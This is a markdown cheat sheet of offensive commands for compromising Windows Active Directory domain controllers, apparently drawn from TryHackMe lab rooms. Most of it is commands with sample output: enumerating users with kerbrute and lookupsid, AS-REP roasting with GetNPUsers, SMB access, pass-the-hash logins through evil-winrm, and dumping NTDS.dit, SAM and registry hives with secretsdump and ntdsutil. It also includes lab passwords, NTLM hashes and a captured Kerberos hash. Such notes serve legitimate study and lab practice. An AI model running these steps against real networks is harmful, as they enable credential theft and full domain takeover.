 # Domain Controllers
## Basics 
- Find the NETBIOS Domain Name
````
nbtscan -v 10.10.8.1-254
````
- Should also be in nmap output
````
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   DNS_Tree_Name: spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-08-20T18:00:52+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
````
- Add to `/etc/hosts`
## Kerbrute
- Find valid users
- Example Syntax
````
kerbrute -users userlist.txt -domain spookysec.local -dc-ip 10.10.55.114
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Valid user => james
[*] Valid user => svc-admin [NOT PREAUTH]
[*] Valid user => James
[*] Valid user => robin
[*] Blocked/Disabled user => guest
[*] Valid user => darkstar
````
## Impacket
- Location:
````
/usr/share/doc/python3-impacket/examples/
````
- If we have IPC$ access without authentication we are able to list the domain users as anonymous
````
python3 lookupsid.py anonymous@10.10.10.10 | tee users.txt
````
- Isolate the users with `SidTypeUser`
````
grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users.txt
````
- Now, let’s use `GetNPUsers.py` to find users without Kerberos pre-authentication:
````
python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -userfile usernames.txt
````
- Should retrive a hash if the command is sucessful
````
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:692e76f70a8772c46ed94e73130460c8$713b0693498fdaff68642d78e713ca965e5007d5d864ca727289930783fe28f00bf79fef8126c4722d09cafc72ec60e940d31297591f67ce049030cb531ddd9c83cd37796fbf414b830a7c90fe26d2c45d6f2b624cd4413c58e3dbb77519dd69906248f8db27b1974b880a826003e562e25d9de9e4cb7cfa85c1de954761053b7d51a455530001348b46909f91f4e80bae7374071339f0920bb3e2ad95169d20f05d0cd586882facb63c058072dacb7ec8ddbcd9297331e1f6fb6d844ea7967659bee38fde4431af9f9608e9adcb38cb6e20e72bcf61c524f480b5ea2530e16dbeed2272855a61a05c03e84653aa1a3bbbd5ece06633
````
- Crack the hash with `john`
### SMB Samba authenticated access
````
smbclient -U vulnnet-rst.local/t-skid //10.10.100.15/NETLOGON
smbmap -u svc-admin -p management2005 -H 10.10.248.93
smbclient -U spookysec.local/svc-admin \\\\10.10.248.93\\backup 
````

- Cat out files with `smb`
````
Enter VULNNET-RST.LOCAL\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

        8540159 blocks of size 4096. 4318542 blocks available
smb: \> get ResetPassword.vbs -
````
### evil-winrm
- Connect with pass the hash attack
````
evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"
````
### Dump hashes
- Use `secretsdump.py` with impacket
- This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. 
- Creds used need to be domain admin for this to work 
````
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15
python3 secretsdump.py spookysec.local/backup:backup2517860@10.10.248.93
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
````
![spooky](https://user-images.githubusercontent.com/75596877/130284812-511a8141-5917-4954-8c29-e623c1edce36.png)
#### Alt Method 
- Open `cmd.exe`
- Run `ntdsutil` from the command prompt, enter these commands 
````
snapshot
activate instance NTDS
create
````
- Takes a snapshot of the DC 
- Will show you the UUID of the newly created snapshot. 
- ntdsutil is using Volume Shadow Copy for the snapshot creation, but also ensures the database consistency. Use the UUID for the following command:
````
mount <UUID>
````
- The output will show the path where the snapshot was mounted. Start another cmd.exe as Administrator and copy NTDS.dit (located in `Windows\NTDS\NTDS.dit` by default).
- Create a copy of the `SYSTEM` registry hive:
````
reg.exe save HKLM\SYSTEM <path_where_you_want_to_save_it>
````
- Go back to the `cmd.exe` window with `ntdsutil` running, and `unmount` (and optionally `delete`) the snapshot and exit:
````
unmount <UUID>
delete <UUID>
quit
quit
````
- Using the two saved files (`NTDS.dit` and `SYSTEM` registry hive) you can use the same `secretsdump.py` script to extract password hashes offline (doesn’t need to be done on the domain controller):
````
secretsdump.py -system <path_to_system_hive> -ntds <path_to_ntds.dit> LOCAL
````
#### Secretsdump Local 
- Exfil the registry hives 
````
reg.exe save hklm\security C:\temp\security.save
reg.exe save hklm\system C:\temp\system.save
reg.exe save hklm\SAM C:\temp\sam.save
````
- Extract hashes from exfiled SECURITY SAM and SYSTEM
````
python3 secretsdump.py -security security.save -system system.save -sam sam.save LOCAL
````

#### Another Cheatsheet
- https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a







































